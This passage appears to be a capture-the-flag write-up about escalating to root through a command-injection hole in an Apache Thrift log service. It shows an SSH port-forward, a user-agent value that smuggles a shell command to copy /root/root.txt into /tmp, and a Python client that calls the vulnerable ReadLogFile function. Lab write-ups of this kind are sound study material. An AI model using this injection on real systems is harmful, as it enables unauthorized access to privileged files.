 **EXPLANATION OF THE SCRIPT**
The script implements a log service using Apache Thrift technology to process and extract information from log files. A log file is processed line by line extracting the ip address and uder agent and outputing results to a file `logs`

I got particularly interested in 3 sections of the code:
1. The user agent Regex section
2. The logs file that contains ip, user agent and timestamp. Contents of the file then get executed with a new shell being prompted to open and run commands specified in the file.
3. The Apache Thrift Service is running on port 9090 

So as to interact with the service, I used port forwarding 
```sh
ssh -L 9090:127.0.0.1:9090 margo@10.10.11.33 -i id_rsa
```

The idea is to get the contents of the root flag by using a command that will read the contents and output them to a file in the /tmp directory

First I cloned the repo to the target machine. 
After that, I created 2 files:

1. One on the target machine containing the user agent with the file system commands to read the file containing the root flag. The file is on the directory containing the LogService repo: 
```sh
"user-agent":"' && cat /root/root.txt > /tmp/test  #"
```

2. The other is a script on my attack that will interact with the Apache Thrift technology and call onto the `ReadLogFile` function 
```sh
from thrift.transport import TSocket   
from thrift.transport import TTransport   
from thrift.protocol import TBinaryProtocol   
from log_service import LogService      
def main():
    transport = TSocket.TSocket('127.0.0.1', 9090) 
    transport = TTransport.TBufferedTransport(transport)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)
    client = LogService.Client(protocol)
    transport.open()
    try:
        response = client.ReadLogFile("/path/to/file")
    except Exception as e:
        print(f"Error: {e}")
    finally:
        transport.close()      

if __name__ == "__main__":
    main()
```

Once that is done I ran the python script on my terminal. Then on the /tmp directory found the file `test` containing the root flag!!!
![img-description](18.png)

